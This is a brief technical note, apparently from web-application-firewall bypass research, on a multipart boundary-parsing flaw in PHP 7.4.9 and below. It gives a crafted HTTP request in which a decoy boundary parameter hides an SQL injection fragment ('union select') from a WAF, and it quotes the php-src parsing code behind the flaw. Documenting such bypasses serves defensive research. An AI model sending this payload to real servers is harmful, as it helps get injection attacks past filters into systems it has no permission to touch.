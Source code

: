 ### PHP 7.4.9 and below
**Incorrect boundary parsing**
```http
POST / HTTP/1.1
Host: localhost
Content-Type: multipart/form-data; PHPboundaryPHP=phpboundary; boundary=wafboundary
Content-Length: 219

--wafboundary
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

--phpboundary
Content-Disposition: form-data; name="q"

' union select '1
--phpboundary--
--wafboundary--
```

**Source code** ([/php/php-src/main/rfc1867.c](https://github.com/php/php-src/blob/4514afc1875bedf4dc07cb457f8ef5c986a7ca55/main/rfc1867.c#L711-L725))
```c
boundary = strstr(content_type_dup, "boundary");
...
if (!boundary || !(boundary = strchr(boundary, '='))) {
```